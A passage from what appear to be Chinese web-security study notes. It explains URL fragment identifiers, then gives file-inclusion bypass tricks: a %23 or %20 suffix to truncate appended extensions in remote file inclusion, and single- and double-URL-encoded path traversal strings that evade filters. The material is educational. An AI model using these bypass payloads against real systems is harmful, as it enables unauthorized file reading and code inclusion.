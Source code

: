   ```html
  <a id="tips">有用的提示部分</a>
  ```

- 在 HTML 文档中创建一个链接到“有用的提示部分”

  ```html
  <a href="#tips">访问有用的提示部分</a>
  ```

- 或者，从另一个页面创建一个链接到“有用的提示部分”

  ```html
  <a href="https://www.runoob.com/html/html-links.html#tips">访问有用的提示部分</a>
  ```

\# 是用来指导浏览器动作的，对服务端无用。HTTP 请求中不包括 # ，如访问 `https://www.runoob.com/html/html-links.html#tips` 时，浏览器实际请求的是 `https://www.runoob.com/html/html-links.html` ，当浏览器得到 html-links.html 后，再根据 # 的指导进行下一步动作。

url 中第一个 # 后面出现的任何字符，都会被浏览器解读为位置标识符。这意味着，这些字符都不会被发送到服务器端。比如，`http://www.example.com/?color=#fff` 的原意是指定一个颜色值，但浏览器实际发出的请求是：

```
GET /?color= HTTP/1.1
Host: xxx
```

那么我们传入 `?file=http://127.0.0.1/test.txt%23 `，远程文件包含时 # 将被解释为位置标识符，从而拼接的 .html 失效。注意使用 url 编码传入，防止传入时就被解释为位置标识符。

###### 空格绕过

&emsp;&emsp;远程文件包含，`?file=http://127.0.0.1/test.txt%20` ，注意使用 url 编码传入。

##### <<过滤.或/

###### url一次编码绕过

- ../
  - %2e%2e%2f
  - ..%2f
  - %2e%2e/
- ..\
  - %2e%2e%5c
  - ..%5c
  - %2e%2e\

###### url二次编码绕过

- ../
  - %252e%252e%252f
- ..\
  - %252e%252e%255c

#### 【PHP伪协议】

##### <<基础

###### file://：访问本地文件系统
